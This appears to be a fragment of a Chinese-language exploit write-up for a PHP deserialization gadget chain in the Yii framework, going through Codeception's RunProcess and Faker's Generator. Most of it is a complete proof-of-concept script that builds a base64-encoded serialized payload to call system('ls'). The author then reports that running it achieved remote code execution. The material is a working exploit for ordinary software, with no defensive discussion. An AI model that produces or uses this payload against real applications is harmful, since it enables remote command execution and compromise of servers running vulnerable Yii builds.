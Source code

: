`Codeception\Extension\RunProcess::__destruct()->Faker\Genrator::__call()->yii\rest\IndexAction::run()`

##### Poc2

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'ls';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}

// poc2
namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this->processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess()));
}
?>
```

运行poc，成功RCE了
